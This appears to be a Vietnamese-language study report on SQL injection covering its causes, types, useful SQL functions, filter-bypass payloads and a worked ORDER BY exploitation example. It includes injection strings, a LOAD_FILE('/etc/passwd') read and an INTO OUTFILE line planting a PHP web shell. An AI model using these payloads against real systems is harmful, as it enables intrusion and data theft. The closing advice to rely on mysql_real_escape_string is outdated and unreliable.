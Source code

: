#REPORT
----------------------------------

##SQL Injection

1. **Nguyên nhân**:
 	- App sử dụng input của người dùng mà không thông qua việc làm sạch các kí tự liên quan với ngôn ngữ truy vẫn SQL như ***",',-,...***.
 	- Sử dụng phương pháp cộng chuỗi để ghép input người dùng vào câu lệnh SQL và truyền xuống database.
 	- Các input có thể là: username, password, search-keyword, cookies,...
2. **Phân loại:**
 	* In-band SQL Injection: Đây là loại cổ điển, phổ biến và dễ khai thác nhất, bởi vì output đều rõ ràng và chúng ta có thể nhận biết khá dễ dàng.
 	
		* Error-Based SQLi: Dựa trên các lỗi, exception được xuất ra màn hình khi có các hàm hoặc query chạy sai. Trong một số trường hợp, chỉ Error-Based không đủ để có thể liệt kê một số trường của database.
		* Union-Based SQLi: Loại tấn công dựa trên câu lệnh **UNION** với 2 mệnh đề **SELECT**, app sẽ xuất ra data mà atker cần dưới dạng plain-text. Các lệnh hỗ trợ đi kèm thường là ***limit, order by, offset,...***.
 	
 	* Inferential SQL Injection: Hay còn được biết với cái tên Blind SQL Injection. Đúng như cái tên, vì output không được xuất ra hoặc không rõ ràng nên phải dựa vào cách mà app phản ứng đối với các query lạ như ***sleep(), benchmark(),...***
 		* Time-Based SQLi: Dựa vào thời gian delay của app để truy xuất thông tin thông qua các câu điều kiện như ***IF,...*** và các hàm ***sleep(), benchmark()***
 		* Boolean-Based SQLi: Dựa vào "giá trị" ***đúng/sai*** của câu query bằng toán tử ***&&*** và các hàm như ***ascii(), exists(),...***
 	* Một số loại khác: Second order SQL Injection (kết hợp cả 2 loại trên),...
 	* Out of band SQL Injection: Đây là loại ít phổ biến nhất do kho phát hiện vì app không phản ứng hay trả kết quả với các phản ứng lạ. Chính vì vậy, attker sẽ thông qua một kênh khác để khai thác lỗi này bằng DNS hoặc HTTP Requests.

3. **Attker có thể làm được gì với SQL Injection:**
 	* Tất nhiên điều gần như chắc chắn có thể làm là truy xuất thông tin của database, tất cả dữ liệu nằm trong database một cách không hợp lệ.
 	* Nguy cơ cao hơn là có thể bị thay đổi dữ liệu trong database nếu như developer phân quyền không cẩn thận. Attker có thể làm việc này thông qua các câu truy vấn như ***DROP TABLES, UPDATE, INSERT, DELETE, MODIFY,....***
 	* Ngoài ra, SQLi có thể dẫn đến RCE nhờ vào chức ra output INTO OUTFILE của SQL, điều này tạo cho attker khả năng ghi file(chỉ trong một số trường hợp) đặc biết là file đuôi **.php**.

4. ***Các truy vẫn thường dùng:***

	* ***UNION***: Ghép kết quả của 2 bảng và 2 bảng này phải trùng số cột, cú pháp: ***SELECT ... UNION SELECT ...***. Đây là truy vấn dùng rất nhiều trong khai thác SQL Injection, đặc biệt là In-band SQLi.
	* ***ODER BY, GROUP BY***,...: 2 truy vấn để tìm số cột của câu select trước, hỗ trợ khai thác bằng truy vấn ***UNION***.
	* ***CONCAT()***,...: Hàm có chắc năng cộng các chuỗi kết quả với nhau. Ví dụ câu *SELECT* đầu tiên có dạng như *SELECT username FROM user WHERE ...*, nếu không dùng concat(), thì mỗi truy vấn sẽ chỉ lấy được 1 trường của database. Nếu dùng concat thì sẽ tiết kiệm được nhiều thời gian. Ví dụ: *SELECT username FROM users WHERE id=1 union SELECT CONCAT(phonenumber,email,...) FROM users -- -*
	* ***LIMIT, OFFSET***: Sắp xếp hoặc giới hạn số hàng mà câu truy vấn có thể trả về, vì đôi khi app sẽ chỉ xuất ra màn hình kết quả đầu tiên trong bảng kết quả của chúng.
	* ***CAST(),EXTRACTVALUE()***: Chuyển đổi kiểu dữ liệu giữ các data, hữu dụng trong ***Error-based***.
	* ***HEX(), ASCII(),...***
	* ***LOAD_FILE()***: Đọc nội dung các file chưa thông tin nhạy cảm của server, ex: ***/etc/passwd, /etc/shadow,...***. Ví dụ: ***SELECT LOAD_FILE('/etc/passwd')***.
	* ***INTO OUTFILE***: Ghi kết quả của câu select vào một file nào đó (nếu user hiện tại có quyền ghi). Đây là câu lệnh có thể dẫn tới ***RCE*** (Remote Code Excution). Ví dụ: ***... UNION SELECT "<?php system("$_GET['cmd']"); ?>" INTO OUTFILE /var/www/html/shell.php*** (Trong trường hợp root directory là */var/www/html/*).
	* ***LIKE, BINARY LIKE,...***: Toán tử search **substring**, trả về true nếu **substring** được tìm thấy. Ví dụ: ***SELECT * FROM users WHERE username like "1337%"***. Câu truy vấn trên sẽ trả về tất cả những hàng có ***username*** bắt đầu bằng **"1337"**. Đây là toán tử rất hữu dụng trong khai thác Blind SQL Injection, có thể dùng nó để chạy các giải thuật **Brute-force**.
	* ***xmp..dirtree()***: 1 hàm trong MSSQL, hỗ trợ khai thác out of band sql injection.
	
5. **Bypass:**
Tuy đã có cơ chế để lọc một số input nhưng bên cạnh đó vẫn có cách để bypass chúng, dưới đây là một số cách:
	* URL Encoding:
		* ***?id=1%27+or+1=1+--+-***
	* Muti-Encoding:
		* ***?id=1%2527%2Bor%2B1=1%2B--***. Khi đó %2527 sẽ trở thành %27 = "
	* Blacklist:
		![alt text](img/code1.png)
		* ***?id=1 UniOn sElEct * FrOm users -- -***. Nguyên nhân là do code phân biệt chữ hoa và chữ thường.

		![alt text](img/code2.png)
		
		* Ở đây code đã replace mà không phân biệt hoa thường bằng hàm *str_ireplace()*, payload như sau: ?id=1 UNI**UNION**ON SE**SELECT**LECT * FR**FROM**OM users -- -
	
		* Dựa trên ***Parameter Pollution***:  Một số ứng dụng khi nhận nhiều hơn 1 các tham số trùng tên sẽ sử dụng tham số đâu tiền, một số sử dụng tham số sau cùng, một số lại xử lí tất các tham số đó, có thể thông qua điểm này để bypass blacklist.Ví dụ payload: 
		***?id=1+unio&id=n+selec&id=t+\*+fro&id=m+user+--+-***
		* Sử dụng inline comment của SQL, cú pháp /* comment */. Tùy thuộc vào version của database đang sử dụng mà kĩ thuật này có thành công hay không. Nếu system parse comment thành null byte hoặc kí tự rỗng thì có khả năng thành công. Ví dụ payload: 
			***?id=1+uni/\*\*/on+sele/\*\*/ct+\*+fr/\*\*/om+users+--+-***.
		* Buffer over flow: payload 
			***?id=1+/\* 'A'\*100000 \*/+union+select+\*+from+users+--+-***
		* Ngoài ra, các keyword như ***or*** hoặc ***and*** cũng sẽ bị filter, có thể bypass bằng các kí tự ***||*** và ***&&***.
	
	* SQL comment excution: Từ **MySQL** version *2.23.02* đã hỗ trợ chức năng chạy query trong comment, cú pháp như sau: /\*!32302 query \*/. Ví dụ: ***SELECT+\*+/\*!32302 FROM \*/ users+--+-*** hoặc  ***SELECT+/\*!32302 1/0 \*/+FROM+users+--+-***. Nếu thực hiện được, query trên sẽ trả về lỗi ***divison by 0 error***
	* Khác: Khai thác ở các truy vấn khác như ***limit, order by, offset,...***

6. ***Ví dụ một cuộc khai thác SQL Injection:***
	* Tấn công SQL Injection dựa trên truy vấn ***Order By*** và ***Group By***: một số app có tính năng sắp xếp kết quả của query trả về, và người lập trình không filter tham số tham gia việc sắp xếp. Ví dụ câu truy vấn sau:
		
		***SELECT * FROM users WHERE username like ("%+ $username +%") order by 1 + $order***
 		
 		Đối với câu truy vấn trên, nếu biến $order chưa được filter thì hoàn toàn có thể dính lỗi SQL Injection
 	
 		* Exploit: Đầu tiên, giá trị mong muốn của người lập trình truyền vào biến ***$order*** là ***ASC*** hoặc ***DESC***. Với 2 kiểu sắp xếp khác nhau, nhưng mệnh đề ***order by*** có thể sử dụng nhiều hơn một cột để sắp xếp. Do đó ta có thể tiếp cận lỗi này bằng các kiểu khai thác như ***Time-based***, ***Boolean-based***, thậm chí là ***Union-based********* nếu truy vấn ở trên không phải là ***order by*** mà là ***group by***.
 		
 			* Time-based:
 			Tham số nếu truyền vào bình thường sẽ như sau: ***?username=abc&order=ASC***. Thay vào đó, attker truyền vào tham số ***order*** như sau: 
 			***&order=,(select if((1=1), sleep(5),false))***.
 			
 			Khi đó query trở thành:
 			***SELECT * FROM users WHERE username like ("%abc%") order by 1,(select if((1=1),sleep(5),false))***
 			
 			Nếu app bị time out hoặc delay một thời gian bằng ***5\*<số kết quả trả về\>*** (5 là số giây delay của mỗi kết quả) thì web đã bị dính lỗi SQL Injection. Từ đó, có thể thay điều kiện ***(1=1)*** thành các câu các như ***EXISTS(SELECT ... LIKE ...)*** và dựa vào thời gian response để trính xuất data.
 			* Error-based: Thường ít xuất hiện vì ít có ứng dụng nào cho output là lỗi của query cả(không khả thi):
 			Payload như sau: ***username=abc&order=,(extractvalue(rand(),concat(CHAR(126),version(),CHAR(126))))***
 			Thay ***version()*** thành câu SELECT bất kì.
 			
7. **Một số lỗi ở Real World:**


8. **Khắc phục:**
	* PHP cung cấp một hàm rất hữu dụng để filter input người dùng khỏi SQL Injection là ***mysql_real_escape_string()***.
	* Hạn chế sử dụng phương pháp cộng chuỗi, đặc biệt là với input người dùng.